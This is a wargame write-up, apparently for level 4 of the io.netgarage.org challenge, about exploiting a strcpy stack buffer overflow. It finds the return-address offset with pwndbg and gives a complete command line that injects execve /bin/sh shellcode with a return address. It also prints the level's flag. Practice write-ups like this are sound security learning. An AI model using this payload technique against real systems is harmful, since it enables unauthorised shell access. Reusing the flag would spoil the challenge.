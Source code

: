 ### Level 04  
Let's get a copy of the stuff  
`scp -P 2264 level4@io.netgarage.org:/levels/level04* .` with password from previous level  
  
Looking through source, we use strcpy to copy however many bytes we want into a buffer. We overwrite a few things and then I think we eventually overwrite the return address at some point  
  
Using pwndbg (and argv[1] = "X"*24+"ABC"), it looks like we overwrite at ABC to jump somewhere.  
  
We can jump to our buffer! 0x600477  
  
I tried about 3 different variants on 24 byte shellcode and then came across a 23 byte version [here](https://www.exploit-db.com/exploits/36858/) which let me follow a suggestion from [here](https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/) which is to take a sane value from the stack as the stack pointer.  
  
`./level04 $(python -c 'print ("\x5c\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05\x77\x04\x60")')` I have no idea why it works, but I tried all the 1 byte instructions before and after the shellcode and that worked.  
  
Flag is `IpzNGTYQOK5bh3xC`  
